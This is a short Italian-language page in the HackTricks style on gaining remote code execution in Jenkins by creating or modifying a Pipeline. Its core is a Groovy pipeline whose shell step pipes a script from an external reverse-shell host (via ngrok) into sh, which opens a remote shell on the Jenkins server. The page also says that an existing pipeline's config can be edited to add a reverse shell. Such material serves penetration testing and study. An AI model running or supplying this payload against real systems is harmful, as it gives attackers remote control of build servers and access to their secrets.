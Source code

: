 # Jenkins RCE Creazione/Modifica Pipeline

{{#include ../../banners/hacktricks-training.md}}

## Creazione di una nuova Pipeline

In "Nuovo Elemento" (accessibile in `/view/all/newJob`) seleziona **Pipeline:**

![](<../../images/image (235).png>)

Nella **sezione Pipeline** scrivi il **reverse shell**:

![](<../../images/image (285).png>)
```groovy
pipeline {
agent any

stages {
stage('Hello') {
steps {
sh '''
curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh
'''
}
}
}
}
```
Infine, fai clic su **Salva** e **Esegui ora** e la pipeline verrà eseguita:

![](<../../images/image (228).png>)

## Modificare una Pipeline

Se puoi accedere al file di configurazione di una pipeline configurata, puoi semplicemente **modificarlo aggiungendo il tuo reverse shell** e poi eseguirlo o aspettare che venga eseguito.

{{#include ../../banners/hacktricks-training.md}}
